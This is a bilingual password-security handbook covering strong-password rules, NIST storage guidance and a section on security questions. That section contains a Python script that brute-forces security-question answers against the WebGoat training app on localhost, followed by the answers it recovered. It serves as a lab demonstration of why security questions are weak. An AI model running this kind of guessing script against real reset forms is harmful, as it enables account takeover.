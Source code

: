 # 强密码手册


## 强密码原则

强破解 + 容易记

### 对用户

1. 不用常见弱密码
2. 长度8位以上
3. 字符、数据、特殊符号都要用
4. use different passwords for different accounts
5. use two factor authentication。If possible, use two factor authentication methods to add an extra layer of security to your accounts.



### 对管理者

1. no composition rules：Do not request the user to e.g. use at least one upper case letter and a special character on their password. Give them the opportunity to, but do not force them!
2. 不要密码提示。If you wanted people have a better chance at guessing your password, write it on a note attached to your screen.
3. 不要安全问题。 Security questions, also known as knowledge-based authentication (KBA) are outdated. Asking a user “What’s the name of your pet?” or something similar to check if it’s really him, is pretty unsecure.`http://goodsecurityquestions.com/`
4. 不必强制定期更新密码。如果你没有强制更新，用户会更容易选择强密码
5. **最小**长度为8。
6. 支持所有Unicode字符。同时包括emojis和空格
7. 禁止用户选择123456等常见弱密码

## 易用性“备忘”建议

### 对用户

1. 密码一部分所有网站通用如“#”+姓名简写，另一部分各网站不同如，淘宝网为“tbw”；
2. 使用密码管理工具，如“1Password”；
3. passphrases，如，https://www.rempe.us/diceware/#eff。（The longer the better）

### 对开发者

1. 允许粘贴密码。Users should be able to use the "paste" functionality when entering a password. Since this facilitates the use of password managers, it also increases the likelihood that the user will choose a strong password.
2. allow to display the password。 Password inputs should have an option to display the entered password to assist the user in successfully entering a password.
3. offer a strength meter。Add a strength meter on the password creation page to help the user to choose a strong and secure password.

## 密码存储

## Storing passwords

After a strong and secure password was created, it also has to be stored in a secure way. The NIST gives recommendations on how applications should handle passwords and how to store them securely.

### How should a password be stored?

- first of all: **use encryption and a protected channel for requesting passwords**
  The verifier shall use approved encryption and an authenticated protected channel when requesting memorized secrets in order to provide resistance to eavesdropping and MitM (Man-in-the-middle) attacks.
- **resistant to offline attacks**
  Passwords should be stored in a form that is resistant to offline attacks.
- **use salts**
  Passwords should be salted before storing them. The salt shall have at least 32 bits in length and should be chosen arbitrarily so as to minimize salt value collisions among stored hashes.
- **use hashing**
  Before storing a password it should be hashed with a one way key derivation function. The function takes the password, the salt and a cost factor as inputs and then generates a password hash.
  Examples of suitable key derivation functions:
  - Password-based Key Derivation Function 2 ([PBKDF2](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-132)) (as large as possible ⇒ at least 10.000 iterations)
  - [BALLOON](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-132)
  - The key derivation function shall use an approved one-way function such as:
    - Keyed Hash Message Authentication Code ([HMAC](https://pages.nist.gov/800-63-3/sp800-63b.html#FIPS198-1))
    - any approved hash function in [SP 800-107](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-107)
    - Secure Hash Algorithm 3 ([SHA-3](https://pages.nist.gov/800-63-3/sp800-63b.html#FIPS202))
    - [CMAC](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-38B)
    - Keccak Message Authentication Code (KMAC)
    - Customizable SHAKE (cSHAKE)
    - [ParallelHash](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-185)
- **memory hard key derivation function**
  Use memory hard key derivation functions to further increase the needed cost to perform attacks.
- **high cost factor**
  The cost factor (iteration count) of the key derivation function should be as large as verification server performance will allow. (at least 10.000 iterations)

## 安全问题

```python
import requests
import json
from os.path import abspath, dirname

"""
需要自己改
"""
base_url = "http://localhost:8080"
relative_url = "/WebGoat/PasswordReset/questions"

cookie = {
    "JSESSIONID":"46439A2C88C45786DABA7007969E3574",
    "WEBWOLFSESSION": "BC69F44B500560B73D40FD84141A9B9E"
}
common_color_set = ["red", "orange", "yellow", "green", "cyan", 
        "blue", "indigo", "violet", "purple", 
        "magenta", "pink", "brown", "white", 
        "gray", "black"]
user_set = ["tom", "admin", "larry"]

result = dict()
result_file_name = "xxe3.txt"
result_file_path = dirname(abspath(__file__)) + "\\" + result_file_name

def guess_color(username, color):
    
    params = {
        'username': username, 
        'securityQuestion': color
    }
    r = requests.post(url, cookies=cookie, data=params)
    result_json = r.json()
    feedback = str(result_json['feedback']).strip()
    if (feedback == "Sorry the solution is not correct, please try again."):
        return False
    result[username] = color
    return True
    

if __name__ == "__main__":
    url = base_url + relative_url
    for user in user_set:
        for color in common_color_set:
            isRight = guess_color(user, color)
    with open(result_file_path, 'a') as f:
        for username, color in result.items():
            f.write(username + ": " + color + "\n")
```


result:

```txt
tom: purple
admin: green
larry: yellow
```

## Reference

National Institute of Standards and Technology（NIST）

https://www.passwordping.com/surprising-new-password-guidelines-nist/

https://pages.nist.gov/800-63-3/sp800-63b.html
